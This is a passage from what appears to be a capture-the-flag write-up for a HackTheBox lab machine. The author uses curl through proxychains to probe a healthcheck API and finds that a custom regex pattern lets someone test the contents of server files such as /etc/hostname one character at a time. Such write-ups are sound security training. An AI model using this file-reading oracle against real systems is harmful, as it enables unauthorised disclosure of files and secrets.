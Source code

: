 
#### Type

Sending `file=/bin/bash&type=ELF` returns a result of `true`. Changing `type`
to `PYTHON`, `result` changes to `false` (I’ll snip out the `proxychains`
message for readability from here on):

    
    
    oxdf@hacky$ proxychains curl -X POST -d "file=/bin/bash&type=ELF" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq '.result'
    true
    oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=PYTHON" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq '.result'
    false
    

If I change `type` to something that wasn’t in the example, it returns a 500
error:

    
    
    oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=0xdf" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
    <!doctype html>
    <html lang=en>
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
    

If `type` is `CUSTOM`, there’s another error:

    
    
    oxdf@hacky$ proxychains curl -X POST -d "file=/bin/bash&type=CUSTOM" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
    Pattern required when using custom type
    

In the example, the `pattern` was `^root.*`, which is the regular expression
for starts with “root” and then followed by 0 or more of any character. My
theory is that the regex is applied to the contents of the file, and `result`
is set based on if it matches.

To test this, I’ll experiment on `/etc/hostname`. It seems reasonable to guess
that the file does not start with “a”, and sending a `pattern` of `^a.*` does
return false:

    
    
    oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^a.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
    false
    

It might reasonably start with “r”, and changing `pattern` to `^r.*` does in
fact return `true`:

